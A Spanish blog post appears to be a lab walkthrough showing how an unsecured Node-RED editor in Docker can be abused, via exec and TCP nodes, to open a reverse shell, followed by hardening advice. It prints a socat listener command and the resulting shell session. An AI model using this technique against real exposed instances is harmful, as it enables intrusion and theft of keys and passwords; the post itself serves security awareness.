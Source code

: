 ```yaml
---
title: '¿Por qué deberías proteger Node-RED?'
date: '2023-01-15'
tags: []
draft: false
authors: ['default']
summary: '![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp)'
---
```


![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp)

¿Qué es Node-RED?
-----------------

Esta es la parte más aburrida del post, por lo que me voy a permitir el lujo de copiarlo de otro sitio en Internet.


 Node-RED es una herramienta de **programación visual que se implementa en dispositivos controladores de *hardware*****.** Trabaja mostrando de manera visual las relaciones y funciones de manera que se pueda programar sin escribir. Es un **panel** de ***flow*** al que se pueden incorporar nodos que se comuniquen entre ellos y puede instalarse en equipos como ordenadores Windows, Linux, o en servidores en la nube. Este sistema de representaciónpuede ayudarte a visualizar gráficamente el flujo de la información y consiste en su representación gráfica.

En otras palabras, es una plataforma que mediante cajitas que hacen distintas cosas, eres capaz de crear un **workflow** de una forma visual y ver su representación de un solo vistazo.

Preparación del escenario
-------------------------

1. Arranco **Docker** en mi ordenador de casa con **Windows 11**.


```
@ikero ➜ ~ docker run -it -p 1880:1880 -v node_red_data:/data --name mynodered nodered/node-red
```
2. Mapeo el puerto *1880* del contenedor al *1880* de **Windows**, para que sea visible por otros equipos.

3. Confirmo que el contenedor está funcionando correctamente y podemos empezar con la prueba de concepto.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-4.webp)

⚠️Esta prueba se realiza utilizando contenedores Docker, pero es también posible hacerlo sin utilizar ninguna tecnología de contenedorización.De qué forma es vulnerable
--------------------------

Arranco una máquina virtual de tal forma que simularemos ser el atacante de la prueba. El esquema es el siguiente.

![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-esquema-2.svg)

Mi máquina virtual es capaz de acceder al puerto *1880* del PC con *Windows 11* corriendo el contenedor de **Node-RED**.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-3.webp)

Los nodos de los cuales voy a sacar provecho son los siguientes:

* **exec**: Ejecuta un comando de sistema y devuelve su salida.
* **tcp in**: Provee una muestra de acciones de entrada por TCP.
* **tcp out**: Provee una muestra de acciones de salida por TCP.

Son solamente necesarios estos tres nodos para comprometer el sistema. El siguiente flujo entabla una **shell reversa** por el puerto *9999*

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-5.webp)

Me pongo en escucha desde la máquina atacante con la IP 192.168.1.138 y veamos que ocurre.


```
sudo socat -d -d TCP-LISTEN:9999 STDOUT
# 2023/01/15 02:57:47 socat[64557] W ioctl(5, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
# 2023/01/15 02:57:47 socat[64557] N listening on AF=2 0.0.0.0:9999
# 2023/01/15 02:57:56 socat[64557] N accepting connection from AF=2 192.168.1.132:64267 on AF=2 192.168.1.138:9999
# 2023/01/15 02:57:56 socat[64557] N using stdout for reading and writing
# 2023/01/15 02:57:56 socat[64557] N starting data transfer loop with FDs [6,6] and [1,1]
whoami
# node-red
ls /
# bin
# data
# dev
# etc
# healthcheck.js
# home
# lib
# media
# mnt
# opt
# proc
# root
# run
# sbin
# srv
# sys
# tmp
# usr
# var
```
Ya tenemos acceso a la Shell del contenedor Docker. No debemos pensar bajo ningún concepto que por el hecho de usar contenedores ya estamos protegidos. Existen varias vulnerabilidades de tipo [Container Escape Vulnerability](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities) que hace que no debamos bajar la guardia simplemente por el hecho de usar contenedores.

A partir de aquí, debes pensar que cualquier cosa que estuviese dentro de tu sistema (o en otros sistemas, porque también se puede acabar saltando hacia otros equipos vulnerables del entorno) ha podido ser robada. Ya sean **Api Keys** que utilizas para subir los datos a un proveedor **Cloud** o contraseñas para acceder a otros sistemas que hayas pensado que almacenarlos dentro de una carpeta del contenedor era una buena idea.

Cómo puedo hacerlo (un poco) más seguro.
----------------------------------------

Lo primero es seguir las recomendaciones que dice su propia página en https://nodered.org/docs/user-guide/runtime/securing-node-red.

En la primera línea nos encontramos el siguiente mensaje.

⚠️By default, the Node-RED editor is not secured - anyone who can access its IP address can access the editor and deploy changes.A partir de aquí, lo que debe ser un **MUST** en nuestra configuración debe ser:

* Habilitar la ventana de Login en todos los casos.
* Separar credenciales entre los editores de los flujos y los usuarios normales.
* Habilitar HTTPs. Aunque sea con certificados autofirmados.
* Deshabilitar aquellos nodos que creamos que no son necesarios para nuestro tipo de trabajo. O mejor aún, deshabilitar todos y habilitar SOLO aquellos que son necesarios.

Los flujos de Node-RED son, al fin y al cabo, una manera de desarrollar software "más sencilla". El hecho de ver una interfaz amigable no debe despistarnos de lo que es la plataforma en sí. Abrir la puerta a que cualquiera pueda desarrollar sus flujos sin ningún tipo de cuidado, puede ser peligroso.

